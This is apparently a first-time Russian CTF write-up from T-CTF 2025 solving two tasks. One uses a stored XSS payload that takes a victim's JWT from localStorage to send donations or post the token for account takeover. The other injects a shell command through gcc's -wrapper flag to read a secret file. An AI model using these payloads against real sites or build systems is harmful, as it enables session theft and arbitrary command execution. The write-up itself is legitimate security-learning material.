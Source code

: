 ## Вот и подошла к концу T-CTF 2025.
Мероприятие было очень интересным, таски не заставляли скучать :D
Хотел бы поделиться решениями и впечатлениями от нескольких заданий, написать так называемый **"WriteUp"**. *(Первый в моей жизни)*

> [!important]
> Приятного прочтения! (не судите строго, пишу первый раз)

---

**P.S**: К сожалению я не мог полностью присутствовать все время соревнования, но тем не менее успел решить несколько штук ;)

---
### Содержание:
- #### [Капибординг](#Капибординг)
- #### [Капибассейн](#Капибассейн)

## Капибординг
Достаточно простое задание, в котором я почти сразу же нашел `XSS` (Так же было задание, очень похожее на это, тоже с экспуатацией `XSS`)

#### Начнем:
Сначала зарегестрируем нового пользователя
![[img1](../sources/TCTF2025/Pasted%20image%2020250422130419.png)
Видим, что нам каким-то чудом надо залутать аж **100500** часов💀💀. Что-ж, давайте шерстить сайт. Немножко посмотрев содержимое, наткнемся на интересную страничку:
![[img2](../sources/TCTF2025/Pasted%20image%2020250422130544.png)
Давайте попробуем назвать наш донат как-то так и посмотреть что получится:
![[img3](../sources/TCTF2025/Pasted%20image%2020250422131656.png)
В исходном коде описание выглядит как:
```
<div><><^@#)!_</div>
```

Символы не были экранированы! Что-ж, попробуем:
![[img4](../sources/TCTF2025/Pasted%20image%2020250422131817.png)
При клике на "Просмотр":
![img5](../sources/TCTF2025/Pasted%20image%2020250422131835.png)
Готово! Теперь раскрутим найденную брешь
Заметим, что в качестве проверки авторизации используется `JWT`, это можно понять по заголовку `HTTP`:
![[img6](../sources/TCTF2025/Pasted%20image%2020250422131949.png)

Теперь уже точно ясно что нам надо сделать:
1. Создать второй акк, задонатить туда 1 минуту
2. Посмотреть структуру пакета
3. Написать ~~злой~~ вредоносный `JS` код который будет отправлять нам денежки 😈😈😈

#### 1. Структура пакета ручки `/donate`:
```http
POST /api/donation-pages/<DONATION-ID>/donate HTTP/2
Host: t-alps-dj3q0r2m.spbctf.org
Cookie: __cfduid=c0fb1d439b98593b97f0a30be3258576
Content-Length: 13
Sec-Ch-Ua-Full-Version-List: 
Sec-Ch-Ua-Platform: "Linux"
Authorization: Bearer <TOKEN>
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
Sec-Ch-Ua-Platform-Version: ""
Origin: https://t-alps-dj3q0r2m.spbctf.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://t-alps-dj3q0r2m.spbctf.org/donate/bKFSojF3qsnrfOuk
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"minutes":1}
```

#### 2. Пишем JS код
Теперь описание нашего доната выглядит так:
```json
<img src=x onerror="
fetch('/api/donation-pages/<DONATION-ID>/donate', 
	{
		method: 'POST',
		headers:
		{
			'Content-Type': 'application/json',
			'Authorization': 'Bearer ' + localStorage.getItem('token')
		},
		body: 
			JSON.stringify({minutes: 1})
	}
);">
```
По идее, жертва, посещая на страницу с нашим донатом, автоматически отправляет нам указанную сумму денег. Но это работало очень странно, мои денежки отсылались, а ботов - нет :(

Поэтому я немного изменил эксплойт, так, чтобы он отсылал токены JWT в комментарии:
```json
<img src=x onerror="
fetch('/api/donation-pages/<DONATION-ID>/comments', 
	{
		method: 'POST',
		headers:
		{
			'Content-Type': 'application/json',
			'Authorization': 'Bearer ' + localStorage.getItem('token')
		},
		body: 
			JSON.stringify({minutes: 1})
	}
);">
```

Теперь под указанным донатом боты любезно слили мне свои токены `JWT` 😛
![img7](../sources/TCTF2025/Pasted%20image%2020250422133758.png)

После того, как я получил токены, я посетил аккаунт одного из ботов
![img8](../sources/TCTF2025/Pasted%20image%2020250422133857.png)

И задонатил себе нужную кругленькую сумму :)
![img9](../sources/TCTF2025/Pasted%20image%2020250422133954.png)

## Капибассейн
Интересная таска, заставляющая читать документацию 😞
И конечно же не обошель без нашего старого доброго... С! Язык крутой, но, думаю, даже **Ритчи** не до конца его понимает... Не буду томить, перейдем к решению!

Подключаемся по SSH, видим такую картину:
![[img10](../sources/TCTF2025/Pasted%20image%2020250422134830.png)

Задание предлагает нам разобраться с флагами для компиляции проги. Читаем ошибки и видим, что `gcc` не может найти `printf`:
```c
main.c:29:5: note: include '<stdio.h>' or provide a declaration of 'printf'
```

**Капиинженер**, в свою очередь, просит вставить *чото* в команду компиляции:
`<Капинженер> Чо сюда вставить: gcc main.c -std=c11 -L. -lbasin-control →???← -o main`

Я, не долго думая, посмотрел где лежит эта либа у меня на машине и прикрутил к флагу импорта библиотек. Получилось это:
```bash
-include "/usr/include/stdio.h"
```

Полная команда:
```bash
gcc main.c -std=c11 -L. -lbasin-control -include "/usr/include/stdio.h" -o main
```

Смотрим на вывод:
![[img11](../sources/TCTF2025/Pasted%20image%2020250422135231.png)

Круто, все скомпилилось! Но есть одно но: флаг теперь находится в другом документе. Вот тут я плотно просел. 

Анализируем код:
```c
#include "basin-control/lib.h"

#include <unistd.h>
#include <stdlib.h>

#define EXIT_ON_ERROR(exp) \
if ((exp) < 0) { \
    perror(# exp); \
    return -1; \
}

int main()
{
    EXIT_ON_ERROR(basic_control_init());
    EXIT_ON_ERROR(basic_control_auth("./secret.txt"));
```

Видим, что путь до секрета **ЗАХАРДКОЖЕН**!!! Еще видим макрос, который можно попытаться изменить (что я и делал), но в данном задании это бесполезно

Я долго искал пути решения и возможность "динамически" что-то подкрутить, одной из первых моих мыслей, однако, была эта:
```А можно ли как-то выполнить bash скриптик прямо из gcc?```

Оказывается, МОЖНО!!
И делается это с помощью специального флага `-wrapper`:
```bash
-wrapper '/bin/sh,-c,echo -e "#include<stdlib.h>\nint main(){system(\"cat new_secret.txt\");return 0;}" > steal.c && gcc steal.c -std=c11 -L. -lbasin-control -o main #'
```

-wrapper '/bin/sh,-c,echo -e "cat new_secret.txt"'

И это сработало. Обидно только, что инфу про это искать сложно 😞
```bash
<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
tctf{Y0U_aR3_7HE_gRea7E57_CapybAR4_saVeR}
<Капинженер> Почему температура не исправилась ???¿¿¿ Давай что-то другое вставим!
```

И мы даже немного обманули задание, тк просто вывели себе флаг на блюдечке (скомпилили *новую* прогу, которая просто вывела флаг), без дальнейшего анализа кода и его решения 😉

По сути полный код выглядел так:
```bash
gcc main.c -std=c11 -L. -lbasin-control -wrapper '/bin/sh,-c,echo -e "#include<stdlib.h>\nint main(){system(\"cat new_secret.txt\");return 0;}" > steal.c && gcc steal.c -std=c11 -L. -lbasin-control -o main #' -o main
```

Есть и альтернативное решение, оно попроще:
```bash
-wrapper '/bin/sh,-c,echo -e "cat new_secret.txt"'
```

```bash
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -wrapper '/bin/sh,-c,echo -e "cat new_secret.txt"' -o main
cat new_secret.txt
cat new_secret.txt
cat new_secret.txt

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
tctf{Y0U_aR3_7HE_gRea7E57_CapybAR4_saVeR}
```

В общем, все упирается в возможность выполнения `bash` скрипта. Возможно разработчики подразумевали дальнейшее взаимодействие и анализ кода, но мы же хацкеры как никак 😉

---
> [!Important]
> Пока что все, со временем обновлю **README**, добавлю еще решений!!

*by CacucoH*